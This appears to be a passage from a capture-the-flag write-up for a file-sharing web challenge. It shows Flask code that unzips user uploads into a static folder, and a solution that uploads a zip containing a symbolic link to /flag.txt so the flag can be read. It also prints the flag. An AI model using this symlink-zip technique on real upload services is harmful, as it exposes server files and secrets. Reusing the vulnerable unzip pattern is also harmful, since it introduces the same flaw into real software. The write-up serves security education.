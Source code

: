       _sub = session['user']
      file = request.files['file']
      tmppath = path.join('/tmp', urandom(16).hex())
      realpath = safeJoin('/app/static', _sub)
      if not realpath:
        return 'No path traversal'
      if not path.exists(realpath):
        mkdir(realpath)

      file.save(tmppath)
      returncode = run(['unzip', '-qo', tmppath, '-d', realpath]).returncode
      if returncode != 0:
        return 'Not a zip file'
      if not path.isfile(path.join(realpath, 'index.html')):
        return '"index.html" not found'
      return redirect(realpath[4:]+'/index.html', code=302)
    ...
    ```
* **`docker-compose.yaml`**
We can see that the flag is mounted on <font color="FF0000">`/flag.txt`</font>
    ```docker
    version: '3.9'

    services:
      web:
        build: web
        restart: always
        ports:
          - 8080:5000
        volumes:
          - ./flag:/flag.txt:ro
    ```
#### Construct Payload
* So, our first idea is using symbolic link to create a `payload.txt` that link to `/flag.txt` and compress with `index.html` then upload to the web page.
* Payload
    ```bash!
    touch index.html
    ln -s /flag.txt payload.txt
    zip --symlinks -ry index.zip payload.txt index.html
    ```
    Then rewrite the URL like this: https://share.ctf.zoolab.org/static/123/payload.txt

    <font color="FF0000">FLAG{w0W_y0U_r34L1y_kn0w_sYmL1nK!}</font>

#### Reference
[unzipper-ctftime](https://ctftime.org/writeup/31867)
[unzipper-mikecat](https://mikecat.github.io/ctf-writeups/2021/20211218_hxp_CTF_2021/WEB/unzipper/#en)
[unzipper-nandynarwhals](https://nandynarwhals.org/hxp-ctf-2021-unzipper/)
[電腦王-symbolic link](https://www.techbang.com/posts/12538-hard-links-soft-links-archives-does-not-fashu)
[Ithelp - symbolic link](https://ithelp.ithome.com.tw/articles/10222754)